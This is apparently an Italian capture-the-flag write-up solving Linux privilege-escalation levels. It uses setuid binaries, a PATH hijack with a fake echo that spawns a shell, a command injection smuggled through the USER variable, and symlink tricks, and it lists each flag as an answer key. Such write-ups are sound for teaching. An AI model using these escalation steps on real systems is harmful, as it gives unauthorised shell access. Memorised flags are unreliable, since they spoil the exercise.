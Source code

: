 # BootsTrap
Appena si avvia la vm con l'iso compare la flag: `CCIT{72318565-c76d-4ed9-81b6-afc582e75777}`

# SetUID
```
find / -perm /u+s 2>/dev/null -> elimina le righe che ritornano autorizzazione negata.
/usr/share/nano/fishy -> Accesso a shell con autorizzazione dell'user flag01.
CCIT{997874cf-581a-49ca-a449-51d24dd31fa5}
```

# Arbitrary Command Exec
```
system("usr/bin/env echo ..."); seguito dal nome di un programma esegue quel programma, quello sarebbe equivalente a bin/echo, in sostanza 
cerca il primo eseguibile 'echo' nelle directory configurate della PATH.
Si va su level01, si crea un file C echo.c:
int main() { 
  system("/bin/bash"); 
} -> gcc -o echo echo.c, cosi da avere l'eseguibile echo personalizzato.
Si procede a modificare la PATH, export PATH=/home/level00:$PATH, cosi è la prima che viene letta, e con ./flag01 si ottiene la shell di flag01.
CCIT{0fc0a412-4184-4c9d-af48-498f7bc713db}
```


# Arbitrary Command Exec 2
```
Si ragiona nello stesso modo, soltando con USER, se proviamo export USER=poop -> ./flag02 -> poop is cool.
Ora serve solo concatenare piu istruzioni ad USER con ';' export USER="poop; /bin/bash #" -> ./flag02 -> Ottengo la shell di flag02.
CCIT{b5b43a28-962d-42ea-92b6-cefa552766a0}
```

# Exit VIM
```
Basta usare i comandi :Sex, :./myvi -> Appare FlAg.TxT, CCIT{c1cd2007-55bb-4a40-9f91-21f5e2207db1}
```

# Read flag
```
Creare un symlinks: ln -s /home/flag04/flag.txt /home/level04/file.txt -> ./flag04 /home/level04/file.txt.
CCIT{4c886115-a6ca-4141-b0a2-69a25cadceaf}
```
